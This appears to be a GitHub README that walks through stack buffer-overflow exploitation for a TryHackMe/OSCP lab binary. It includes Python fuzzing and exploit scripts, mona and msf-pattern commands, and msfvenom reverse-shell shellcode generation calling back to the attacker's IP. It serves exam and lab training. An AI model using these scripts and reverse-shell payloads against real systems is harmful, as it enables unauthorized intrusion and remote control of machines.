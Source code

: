# buffer-overflow
A listing of scripts for buffer overflow


### Buffer Overflow from Tib3rius
- buffer-overflow.md
- python gen-badchar-array.py
- python2 bytearray.py '\x00' (same as mona, taken from https://gist.github.com/rverton/64589ac9f5c035100ab40501b17cdf63)



# Process for Buffer Overflow
(Original source for this awesome tutorial: **Tib3rius** https://tryhackme.com/room/bufferoverflowprep )

## Summary of the process

- Crash The Application 
	1. fuzz.py (with while loop and without while loop)
	2. fuzz-http.py
- Find EIP 
	1. msf-pattern_create -l xxxx  
	2. msf-pattern_offset -l xxxx -q (xxxxxxxx)
	3. Mona commands
		- !mona config -set workingfolder c:\mona\%p
		- !mona findmsp -distance xxxx
		- !mona modules
- Controlling EIP
	1. return address - BBBB
	2. control-eip.py
- Identify Bad Characters
	1. for exploit.py -> bytearray.sh '\x00'
	2. Mona commands
		- !mona bytearray -b "\x00"
		- !mona compare -f C:\mona\oscp\bytearray.bin -a
- Find JMP ESP - msf-nasm_shell 
	1. nasm > jmp esp - FFE4 
		- !mona find -s "\xff\xe4" -m "modulename"
	3. nasm > jmp eax - FFE0 
		- !mona find -s "\xff\xe0" -m "modulename"
	5. nasm > jmp edx - FFE2 
		- !mona find -s "\xff\xe2" -m "modulename"
- Generate Shell Code
	- msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -b "\x00\x0a" -f py
	- msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=port EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a"
- Exploit
	- final-exploit.py

## Detailed process
### connecting to process 
```nc -nv MACHINE_IP 1337```

### setting mona working folder
`!mona config -set workingfolder c:\mona\%p`


### Fuzzing 

`python2 fuzzer.py`
```
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)
```

### Crash Replication & Controlling EIP

`python2 exploit.py`

```
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```


### offset

`msf-pattern_create -l 600`

Copy the output and place it into the payload variable of the exploit.py script.

`python exploit.py`

After crach use following command

`!mona findmsp -distance 600`

Mona should display a `log window` with the output of the command/

In this output you should see a line which states:

`EIP contains normal pattern : ... (offset XXXX)`

Update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the `retn variable to "BBBB"`.

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).


### Finding Bad Characters

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

```!mona bytearray -b "\x00"```

`you can use the following python code as well`
```
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```
Update your exploit.py script and set the payload variable to the string of bad chars the script generates.


```!mona compare -f C:\mona\oscp\bytearray.bin -a <address>```

A popup window should appear labelled "mona Memory comparison results". Generate a new bytearray in mona, specifying these new badchars along with \x00.

Example as below
```!mona bytearray -b "\x00\x07\xa0"```


### Finding a Jump Point

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with **all the badchars** you identified (including \x00):

```!mona jmp -r esp -cpb "\x00"```

Choose an address and update your exploit.py script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.


### Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with **all the badchars** you identified (including \x00):

```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py -v payload```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

**remove the preceding "b" in the var**

### Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```padding = "\x90" * 16```

### Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.

Restart oscp.exe in Immunity and run the modified exploit.py script again. Your netcat listener should catch a reverse shell!
